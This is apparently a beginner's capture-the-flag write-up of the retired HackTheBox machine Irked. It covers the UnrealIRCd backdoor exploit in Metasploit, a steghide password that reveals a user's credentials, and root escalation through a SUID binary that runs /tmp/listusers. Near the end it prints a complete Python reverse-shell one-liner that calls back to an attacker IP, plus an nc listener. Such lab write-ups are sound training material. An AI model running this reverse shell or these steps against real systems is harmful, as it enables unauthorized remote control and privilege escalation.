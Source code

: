 

Hey people :D. Welcome to my write-up about Irked, a retired machine from HackTheBox, an **awesome** place to practice your skills on infosec.
It's my first ever write-up/post so feedback is more than welcome. Also, sorry about the inconsistent terminal color :sweaty-smile:

Enough talking, *let's heck'em* 

I started with what I think 90% of everyone out there starts, an nmap scan.

{starting nmap}

Visiting the website at http://10.10.10.117/ we get this content

{website}

From the beggining we get the first _clue_: **IRC**. But my first scan wasn't satisfying, so I looked a little deeper with ``nmap -p- 10.10.10.117``

{second nmap}

Aha! So there is an open irc port. The website was telling us that the irc was not working correctly, so if we connect to it, we might find something that we can take advantage of.

{setting up irc}

There I spent some time researching what a MOTD file is, but it didn't help me. So the next step for me is to search for a IRC exploit on Metasploit ~~(skid detected)~~ in a desperate hope for an exploit. 
After seeing the results and spending a minute or so, my brain finally started to kick: the specific IRC version (Unreal3.2.8.1) was vulnurable to backdoor command execution!

{msfconsole}

Well that was not that hard. After setting the RHOST ``set RHOST 10.10.10.117`` and RPORT ``set RPORT 6697``, I run the exploit and.. voilà! 

{run exploit}

Hacker's voice: *I'm in.*

After navigating through the system I found a user named "djmardov". In his Documents file there were 2 files: user.txt and .backup. Being only able to read the backup file, I came across this result:

{backup}

What I understood is that steg stands for *steganography*, i.e. the way of hiding data within other files. But there must exist an image for this, because most steg challenges that I've encountered hide data inside image files. And there was only one image available in the hole machine:

{stupid yellow face}

For steg challenges that requires extracting information from an image with a password, I either use steghide ``steghide --extract -sf irked.jpg -p UPupDOWNdownLRlrBAbaSSss`` or I often visit [this](https://futureboy.us/stegano/decinput.html) site. This time, to show something different than the classic steghide, I entered this image with the password on the website and I got the djmardov's password.

I logged in via ssh and user.txt was patiently waiting for me there :heart:

{user.txt, hide it a little??}
Now on to root!

My privilage escalation skills are not that great, so for a start I use some standard commands from the [0x00sec forum](https://0x00sec.org/t/enumeration-for-linux-privilege-escalation/1959). After running 
``find / -perm -g=s -o -perm -u=s -type f 2>/dev/null``
I came across some binaries that were executed as root. 

It took me quite some time to figure this out. An experienced hacker would easily recognize the binaries that stand out in a normal Linux machine.

After testing some binaries I came across the **/usr/bin/viewusers**. After putting it to the test I get this error. 

{first run, /tmp/listusers not found}

So this particular binary was searching for the /tmp/listusers file and was executing whatever command the file contained. So the solution is to create the /tmp/listusers file and write a command that the binary will execute as root, i.e. ``cat /root/root.txt``

After giving the permission to execute the file with ``chmod +x /usr/bin/viewusers`` I executed the binary and there's our flag :D

{root.txt}

But as @PresComm once said: "But if you don't get a shell and can't run code, is a system really owned? :thinking:"

Then, to get a shell, I typed ```python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",1337));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``` into /tmp/listusers and execute **/usr/bin/viewusers** while waiting for a connection on my machine with ```nc -lvp 1337```. And Irked is officially pwned :D

{root shell}

I think Irked was an easy box (even for me). Nevertheless, it taught me to be patient and to read everything line by line. 
*Thankee*